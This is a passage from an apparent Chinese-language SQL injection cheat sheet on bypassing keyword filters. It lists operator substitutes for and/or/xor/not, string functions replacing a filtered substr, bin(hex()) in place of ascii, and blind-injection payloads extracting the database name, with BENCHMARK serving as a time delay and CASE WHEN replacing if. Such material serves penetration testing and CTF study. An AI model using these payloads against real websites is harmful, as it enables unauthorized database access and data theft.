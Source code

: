 
### 5.and or xor not被过滤

```
and=&&  or=||   xor=|   not=!
```

### 6.一些函数被过滤

#### 1.substr

使用left，right,lpad(左填充)，rlpad，mid

```sql
substr( str, startpos,lenth)
//注意sql语法中的起始位置是1
substr("abcde",1,1) //a

left(str,length)
left('abcde',1)//a
left('abcde',3)//abc

right(str,length)
right('abcde',1)//e
right('abcde',3)//cde

lpad('abcd',8,'x')//xxxxabcd

rpad(str, lenth,startpos)
rpad("abcde",2,1) //ab

mid("abcde",1,1) //a
```

#### 2.ascii

通过bin(hex())将字符转为二进制判断：

```sql
if((ascii(substr((select database()),1,1))>97),1,0)#

select 0 or if(bin(hex(substr((select database()),1,1)))>111101,1,0)#
#111101  => bin(hex(97)) ||bin(hex('a'))
```

#### 3.sleep

等价函数benchmark(第一个参数为执行的次数,第二个为执行的语句)：

```sql
SELECT BENCHMARK(20000000,md5(123));
```

#### 4.if被过滤

使用case when
